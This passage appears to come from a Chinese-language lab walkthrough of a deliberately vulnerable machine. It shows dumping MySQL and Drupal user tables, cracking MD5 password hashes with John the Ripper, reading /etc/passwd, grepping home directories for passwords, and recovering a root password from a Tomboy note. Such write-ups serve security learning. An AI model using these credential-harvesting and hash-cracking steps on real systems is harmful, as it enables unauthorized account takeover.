

---

## 3.2 MySQL 信息收集

在 phpmyadmin 中搜索无法显示，转为使用 cli。

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| contacts           | 
| drupal             | 
| mysql              | 
| test               | 
+--------------------+
```

### contacts 数据库

```bash
mysql> use contacts;
mysql> select * from contact;
+----+--------------------+--------------------------------+--------------+--------------------+
| id | name               | email                          | phone        | org                |
+----+--------------------+--------------------------------+--------------+--------------------+
|  1 | Patrick Fair       | patrick@localhost.localdomain  | 555.123.4567 | Phake Organization | 
|  2 | Mr. Important User | important@localhost            | 555.123.4567 | Secret Org         | 
|  3 | Jennifer Sea       | jennifer@localhost.localdomain | 555.123.4567 | Phake Organization | 
|  4 | Andy Carp          | andy@localhost.localdomain     | 555.123.4567 | Phake Organization | 
|  5 | Loren Felt         | loren@localhost.localdomain    | 555.123.4567 | Phake Organization | 
|  6 | Amy Pendleton      | amy@localhost.localdomain      | 555.123.4567 | Phake Organization | 
+----+--------------------+--------------------------------+--------------+--------------------+
```

### drupal 数据库 - 用户哈希

```bash
mysql> use drupal;
mysql> select uid,name,pass,mail from users;
+-----+----------+----------------------------------+--------------------+
| uid | name     | pass                             | mail               |
+-----+----------+----------------------------------+--------------------+
|   0 |          |                                  |                    | 
|   1 | jennifer | e3f4150c722e6376d87cd4d43fef0bc5 | jennifer@localhost | 
|   2 | patrick  | 5f4dcc3b5aa765d61d8327deb882cf99 | patrick@localhost  |  # <-- MD5 哈希
|   3 | andy     | b64406d23d480b88fe71755b96998a51 | andy@localhost     | 
|   4 | loren    | 6c470dd4a0901d53f7ed677828b23cfd | loren@localhost    | 
|   5 | amy      | e5f0f20b92f7022779015774e90ce917 | amy@localhost      | 
|   6 | owen     | ec1bfc4849584f8a9b5672364b1bf52f | abc@123.com        | 
+-----+----------+----------------------------------+--------------------+
```

提取 hash 进行爆破：

```
jennifer:e3f4150c722e6376d87cd4d43fef0bc5
patrick:5f4dcc3b5aa765d61d8327deb882cf99
andy:b64406d23d480b88fe71755b96998a51
loren:6c470dd4a0901d53f7ed677828b23cfd
amy:e5f0f20b92f7022779015774e90ce917
```

```bash
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show --format=Raw-MD5 hash.txt
```



```
patrick:password
amy:temppass
```

尝试爆破出来的密码是不是对应用户的 SSH 凭证，也对密码和用户进行排列组合尝试均是无效凭证。



上面的尝试没试过，由于用户过多，很有可能存在家目录中权限和内容的残留，打算去家目录中搜索相关信息。

---

## 3.3 家目录信息收集

在查看 `/etc/passwd` 的文件中，存在许多可用用户，我决定在家目录中搜寻泄露的信息。

```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
```

查找家目录中带有 `pass` 的文件。

```bash
grep -R -i pass /home/* 2>/dev/null > scan.txt
```



其中有个文件提到了 `Root password` ，访问这个文件。

```bash
bash-3.2$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note
<?xml version="1.0" encoding="utf-8"?>
<note version="0.2" ...>
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>   # <-- Root 明文密码
  ...
</note>
```

---
## 3.4 RootShell

切换root用户，确认凭证为root的凭证：



获得 Root 密码：`50$cent`

错误尝试：其中转向决定使用内核提权脚本，但是机器的 gcc 好像用不了，不知道是不是我不会操作。

---

# 4. 总结

这台靶机有很多攻击面，我在漏洞搜索的时候遗漏一个关于 CMS 凭证泄露的漏洞，导致我无法继续进行后续的探索。

提权阶段，这次还是有差一步，不只是 Web 目录可能存在凭证泄露，用户的家目录也会存在凭证泄露。
